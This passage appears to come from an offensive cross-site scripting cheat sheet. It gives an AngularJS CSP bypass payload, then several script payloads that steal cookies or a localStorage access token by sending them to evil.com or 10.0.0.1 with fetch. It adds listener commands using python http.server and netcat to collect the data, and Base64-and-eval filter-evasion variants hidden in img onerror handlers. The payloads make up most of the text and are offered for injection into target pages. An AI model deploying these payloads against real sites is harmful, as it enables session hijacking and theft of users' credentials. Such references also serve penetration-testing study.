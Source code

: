 If the website uses AngularJS with CSP (**`ng-csp`**) as below,

```html
<body ng-app ng-csp>
```

We need to bypass them by using a focus event (**`ng-focus`**), 

```html
/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
```

<br />

## Cookie Stealing

Create the following payload for stealing Cookie and inject into target web page.

```html
<script>fetch("http://evil.com/?"+btoa(document.cookie));</script>
<script>c=document.cookie;fetch(`http://evil.com/${c}`)</script>
<script>c=localStorage.getItem('access_token');fetch(`http://evil.com/${c}`)</script>

<!-- POST -->
<script>
    fetch("http://10.0.0.1/", {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
</script>
```

To retrieve data, start web server or listener in local machine.

```bash
sudo python3 -m http.server 80
# or
sudo nc -lvp 80
```

<br />

## Filter Evasion

### Base64 & Eval

Website may sanitize inputs to prevent from malicious code. However, we might be able to circumvent by modifying our code.  
For example, convert JavaScript code to Base64 string, then insert the base64 string into the **“eval”** function as below.

```bash
# ZmV0Y2goImh0dHA6Ly9ldmlsLmNvbS8iICsgZG9jdW1lbnQuY29va2llKTs= : fetch("http://evil.com/"+document.cookie);
<img src=x onerror="eval(decode64('ZmV0Y2goImh0dHA6Ly9ldmlsLmNvbS8iICsgZG9jdW1lbnQuY29va2llKTs='))">

# '(' => '\x28'
# ')' => '\x29'
<img src="x" onerror=eval.call`${"eval\x28atob`ZmV0Y2goImh0dHA6Ly9ldmlsLmNvbS8iICsgZG9jdW1lbnQuY29va2llKTs=`\x29"}`
```
